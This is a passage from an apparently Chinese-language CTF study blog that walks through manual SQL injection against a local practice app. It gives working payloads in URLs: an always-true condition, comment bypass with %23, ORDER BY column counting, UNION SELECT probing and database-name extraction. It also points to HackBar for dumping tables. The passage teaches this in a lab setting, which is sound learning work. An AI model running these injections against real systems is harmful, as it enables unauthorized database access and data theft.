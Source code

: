 ```
http://127.0.0.1:8000/?student_id=2019122001' or '1' = '1
```

同理，我们也可以不用字符型的，用数字型的where条件，但是要注意要把`#`进行URL编码得到`%23`

```
http://127.0.0.1:8000/?student_id=2019122001' or 1 = 1%23
```

> 在进行URL编码时，感觉线上工具的限制太大了，未来可能会在内网比赛，需要一个离线的工具，翻看了hello-ctf的工具列表，找到了一个合适的工具：
>
> | 项目名称  | Usage                    | 项目地址                                                     | 文档 |
> | :-------- | :----------------------- | :----------------------------------------------------------- | :--- |
> | CyberChef | 近乎全能的编码解码工具。 | [官网](https://cyberchef.org/) [国内中文镜像站](https://ctf.mzy0.com/CyberChef3/) | /    |

之后我们尝试order by来找到这张表有几个字段，用1、2、3以此类推，当order by 4的时候报错了，所以有3列

```
http://127.0.0.1:8000/?student_id=2019122001' order by 1、2、3
```

下一步我们进行union的联合查询，理想结果是1，2，3都展示在列表里

```
http://127.0.0.1:8000/?student_id=2019122001' union select 1,2,3%23
```

上边的请求结果发现还是2019122001、Tom、information Security。此时我们修改一下请求

```
http://127.0.0.1:8000/?student_id=2019122001' and 1=2 union select 1,2,3%23
```

这次回显了1，2，3。这意味着三列都可以回显，接下来的步骤是查表、查字段、查数据等

因为我们知道了原理，下边我们直接用工具HackBar注入

![image-20241212224459125](/img/ctfLearn/image-20241212224459125.png)

图中是查表，其实可以先从查库名开始，点击以后出现以下页面，需要输入参数

![image-20241212225353226](/img/ctfLearn/image-20241212225353226.png)

`The number of columns`这个参数需要填我们有几个列，刚才用order by找到是有3个字段，3列

`Output position`这个参数是刚刚看的123第几个被回显了，而我们是3个都回显了，所以123任意一个都可以

![image-20241212230451691](/img/ctfLearn/image-20241212230451691.png)

以上就是所有的数据库，同理我们可以用`select database()`来查当前数据库

```
http://127.0.0.1:8000/?student_id=2019122001' and 1=2 union select database(),2,3%23
```



同理，接下来我们查表名，用`SQLI -> MySQL -> Dump tables from database`
